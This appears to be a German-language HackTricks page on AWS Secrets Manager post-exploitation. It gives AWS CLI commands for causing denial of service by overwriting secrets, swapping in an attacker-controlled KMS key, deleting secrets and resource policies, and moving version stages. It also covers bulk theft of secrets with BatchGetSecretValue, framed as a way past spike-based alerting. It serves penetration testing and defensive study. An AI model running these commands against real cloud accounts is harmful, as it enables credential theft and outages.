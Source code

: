 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Für weitere Informationen siehe:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Secrets auslesen

Die **Secrets selbst sind sensible Informationen**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) um zu lernen, wie man sie ausliest.

### DoS Change Secret Value

Wenn du den Wert eines Secrets änderst, könntest du **ein DoS für alle Systeme verursachen, die von diesem Wert abhängen.**

> [!WARNING]
> Beachte, dass frühere Werte ebenfalls gespeichert werden, sodass es einfach ist, zum vorherigen Wert zurückzukehren.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Wenn der Angreifer die Berechtigung secretsmanager:UpdateSecret besitzt, kann er das Secret so konfigurieren, dass es einen von ihm kontrollierten KMS-Key verwendet. Dieser Key wird zunächst so eingerichtet, dass jeder darauf zugreifen und ihn verwenden kann, sodass das Aktualisieren des Secrets mit dem neuen Key möglich ist. Wäre der Key nicht zugänglich gewesen, hätte das Secret nicht aktualisiert werden können.

Nachdem der Key für das Secret geändert wurde, ändert der Angreifer die Konfiguration seines Keys so, dass nur noch er darauf zugreifen kann. Dadurch werden nachfolgende Versionen des Secrets mit dem neuen Key verschlüsselt, und da kein Zugriff auf diesen Key besteht, geht die Möglichkeit verloren, das Secret abzurufen.

Es ist wichtig zu beachten, dass diese Unzugänglichkeit nur in späteren Versionen auftreten wird, nachdem der Inhalt des Secrets geändert wurde, da die aktuelle Version weiterhin mit dem ursprünglichen KMS-Key verschlüsselt ist.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Die minimale Anzahl von Tagen, um ein secret zu löschen, beträgt 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Es ist möglich, ein secret wiederherzustellen. Dadurch können secrets wiederhergestellt werden, die zur Löschung geplant sind, da die minimale Löschfrist für secrets 7 Tage und die maximale 30 Tage beträgt. Zusammen mit der Berechtigung secretsmanager:GetSecretValue lässt sich so deren Inhalt abrufen.

Um ein secret wiederherzustellen, das sich im Löschvorgang befindet, können Sie den folgenden Befehl verwenden:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Diese Aktion erlaubt das Löschen der Ressourcenrichtlinie, die steuert, wer auf ein Secret zugreifen kann. Dies könnte zu einem DoS führen, wenn die Ressourcenrichtlinie so konfiguriert war, dass nur einer bestimmten Benutzergruppe Zugriff gewährt wurde.

Um die Ressourcenrichtlinie zu löschen:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Die Zustände von Secrets werden verwendet, um deren Versionen zu verwalten. AWSCURRENT markiert die aktive Version, die Anwendungen verwenden; AWSPREVIOUS behält die vorherige Version, damit man bei Bedarf zurückrollen kann; und AWSPENDING wird im Rotation-Prozess genutzt, um eine neue Version vorzubereiten und zu validieren, bevor sie zur aktuellen Version wird.

Anwendungen lesen immer die Version mit AWSCURRENT. Wenn jemand dieses Label auf die falsche Version verschiebt, verwenden die Anwendungen ungültige Anmeldeinformationen und können ausfallen.

AWSPREVIOUS wird nicht automatisch verwendet. Wenn AWSCURRENT jedoch entfernt oder falsch neu zugewiesen wird, kann es so aussehen, als würde weiterhin mit der vorherigen Version gearbeitet.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (bis zu 20 pro Aufruf)

Abuse the Secrets Manager BatchGetSecretValue API to retrieve up to 20 secrets in a single request. This can dramatically reduce API-call volume compared to iterating GetSecretValue per secret. If filters are used (tags/name), ListSecrets permission is also required. CloudTrail still records one GetSecretValue event per secret retrieved in the batch.

Erforderliche Berechtigungen
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue für jedes Ziel-Secret
- secretsmanager:ListSecrets wenn --filters verwendet wird
- kms:Decrypt auf den CMKs, die für die Secrets verwendet werden (wenn nicht aws/secretsmanager)

> [!WARNING]
> Beachte, dass die Berechtigung `secretsmanager:BatchGetSecretValue` allein nicht ausreicht, um Secrets abzurufen — du benötigst zudem `secretsmanager:GetSecretValue` für jedes Secret, das du abrufen möchtest.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate durch Filter (tag key/value oder name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Umgang mit teilweisen Ausfällen
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Auswirkungen
- Schnelles “smash-and-grab” vieler Secrets mit weniger API-Aufrufen, das möglicherweise Alarmierungen umgeht, die auf Spitzen von GetSecretValue ausgelegt sind.
- CloudTrail-Protokolle enthalten weiterhin ein GetSecretValue-Ereignis pro im Batch abgerufenes Secret.
